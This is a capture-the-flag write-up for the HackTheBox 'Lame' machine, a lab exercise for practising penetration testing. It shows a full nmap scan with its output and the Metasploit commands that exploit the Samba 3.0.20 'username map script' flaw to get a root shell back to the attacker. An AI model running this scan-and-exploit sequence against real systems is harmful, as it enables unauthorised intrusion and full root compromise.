

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  |  10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/Lame) |  |

---

### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.3
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From our **nmap** scan, we see that we are dealing with a **Linux** machine. Ports **21 (FTP)**, **22 (SSH)**, **139 & 445 (SMB)** and **3632 (distccd)** are open.

---
### SMB "username map script" RCE
Looking through the nmap results, I first noticed that the version of **vsftpd** was **2.3.4**, which I knew had a backdoor vulnerability. However, the backdoor was not exploitable in this instance.

My attention then went to SMB, which was running off version **3.0.20**. 

Searching online, I found that this version of SMB had an RCE vulnerability: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

By specifying a username containing shell meta characters, attackers are able to execute arbitrary commands. Since there already exists a Metasploit exploit for this vulnerability, I used it to gain access into the target machine:

```shell
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST tun0
run
```

This gave me a root shell, which I could then use to obtain user.txt and root.txt!



Note that user.txt can be found in the home directory of the user **makis**.